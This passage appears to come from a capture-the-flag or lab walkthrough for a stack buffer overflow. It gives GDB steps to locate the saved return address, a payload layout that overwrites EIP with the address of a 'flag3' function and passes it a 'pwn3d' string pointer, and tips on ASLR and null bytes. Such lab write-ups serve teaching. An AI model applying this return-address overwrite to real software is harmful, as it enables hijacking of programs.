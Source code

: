 ## 8) How to verify in GDB (step-by-step)

1. **Break at the read call (you already did)**:

   ```gdb
   b *0x0b2b92a7
   r
   ```

   or break at `0x0b2b92a5` (just before `push 0`), then `si` to execute pushes then `call`.

2. **After `read` returns, dump memory at buffer**:

   ```gdb
   x/64bx $ebp-0x18    # dump bytes; you should see the payload
   x/wx $ebp+4         # inspect saved EIP — should show the flag3 address you overwrote
   ```

3. **If you return into `flag3` and land inside it, inspect its argument**:
   Put breakpoint at start of `flag3` (e.g., `b flag3`) and run payload; when it breaks:

   ```gdb
   x/wx $ebp+8         # show the first argument that flag3 will see (or p/x *((int*)($ebp+8)))
   x/s *(char**)($ebp+8)  # dereference that pointer and print the C-string it points to
   ```

   You want `$ebp+8` to hold `0xbfffd368` and that address to contain `"pwn3d"`.

---

## 9) Common pitfalls & notes

* **ASLR**: stack addresses change each run. Always compute `$ebp` in the *same run* that you're going to exploit. The `.gdbinit` helper or pwntools scripts can compute addresses at runtime.
* **Null bytes**: writing addresses as C string literals with embedded `\x00` can truncate your payload when used in certain contexts. Use raw binary writes (Python with `p.send(...)` or use `unsigned char[]` initializer) to avoid truncation.
* **Alignment**: if things don’t line up, step into `flag3` and check `$ebp+8` — adjust in your payload (add/remove filler) accordingly.
* **Test with GDB**: Instead of crashing real runs, craft payload in a file and run `gdb ./vcat0` and do `r < /tmp/payload.bin` to reproduce easily while inspecting.

---

## TL;DR (short checklist you can copy-paste)

1. In GDB, at the breakpoint (inside `doit` before `read`):

   ```gdb
   p/x $ebp
   p/x $ebp - 0x18
   p/x $ebp + 4
   x/wx $ebp+4
   p/x ($ebp+4) - ($ebp-0x18)   # should print 0x1c (28)
   ```
2. Build payload: 28 filler, 4 bytes = `flag3` addr (LE), 4 bytes filler, 4 bytes = pointer to `buf+40` (LE), then `pwn3d\x00`.
3. Run program with payload, then in GDB `x/64bx $ebp-0x18` and `x/wx $ebp+4` to verify.

---